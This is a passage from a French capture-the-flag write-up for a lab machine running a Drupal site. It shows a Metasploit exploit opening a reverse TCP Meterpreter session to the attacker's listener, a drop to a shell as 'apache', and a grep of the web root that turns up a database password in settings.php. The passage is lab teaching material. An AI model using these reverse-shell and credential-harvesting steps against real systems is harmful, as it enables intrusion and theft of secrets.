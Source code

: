 Nous pouvons lancer l'exploit.

> exploit

```
[*] Started reverse TCP handler on 10.10.14.16:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (39282 bytes) to 10.10.10.233
[*] Meterpreter session 1 opened (10.10.14.16:4444 -> 10.10.10.233:53528) at 2021-04-05 19:52:39 +0200

meterpreter > 
```

Nous voilà avec un meterpreter, utilisons la commande `shell` pour avoir le shell sur le système.

> shell

```
meterpreter > shell
Process 2366 created.
Channel 0 created.
whoami
apache
```

Nous voilà sur la machine cible avec l'utilisateur `apache`.

<p align="left">
 <h4 align="left">Privilege Escalation</h4>
</p>
<hr size=1px>


<p align= "left">
 <h6 align= "left"><U>1.User</U></h6>
</p>
En allant dans le dossier `/var/www/` où se trouve les fichiers du site web et que nous filtrons les fichiers contenant le mot `password` nous pourrons trouver quelques choses d'intéressant.

> cd /var/www/
> grep -iR password

```
[...]
html/sites/default/settings.php: *     'password' => 'password',
html/sites/default/settings.php:      'password' => 'CQHEy@9M*m23gBVj',
html/sites/default/settings.php: * by using the username and password variables. The proxy_user_agent variable
[...]
```

On remarque qu'un mot de passe est stocké dans le fichier `settings.php`.

Allons voir ce fichier de plus près.

En faisant un `cat` de ce fichier, on peut remarquer que le mot de passe concerne une base de données, nous récupérons en plus de cela le nom d'utilisateur pour se connecter.
